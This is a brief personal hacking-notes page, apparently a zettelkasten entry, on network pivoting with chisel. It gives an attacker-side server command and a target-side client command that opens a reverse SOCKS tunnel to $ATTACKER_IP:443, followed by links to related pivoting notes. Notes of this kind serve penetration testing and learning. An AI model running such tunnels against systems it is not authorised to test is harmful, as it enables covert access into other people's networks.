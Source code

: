 # tunneling through chisel - socks

- Tunnel through 443 and open a socks proxy on attacker localhost.
  - attacker
    ```bash
    ./chisel server --port 443 --reverse
    ```
  - target
    ```
    ./chisel client $ATTACKER_IP:443 R:socks
    ```

` zet/20221003150604/README.md `

# Related

- [20221020154329](/zet/20221020154329/README.md) port forwarding concept
- [20221003150107](/zet/20221003150107/README.md) ssh port forwarding
- [20221013222124](/zet/20221013222124/README.md) concept hub for tricks and tips
- [20221014185949](/zet/20221014185949/README.md) kb file named kb/hacking/commands/pivot-tunnel-through-chisel.md
- [20221003150116](/zet/20221003150116/README.md) Socat over proxy
- [20221003150603](/zet/20221003150603/README.md) tunneling through chisel - socks Attacker
- [20221003150602](/zet/20221003150602/README.md) tunneling through chisel - socks Target
- [20221003150601](/zet/20221003150601/README.md) tunneling Forward specific port through chisel
- ~/kb/hacking/commands/pivot-tunnel-through-chisel.md

Tags:

    #command #hacking #pivot 
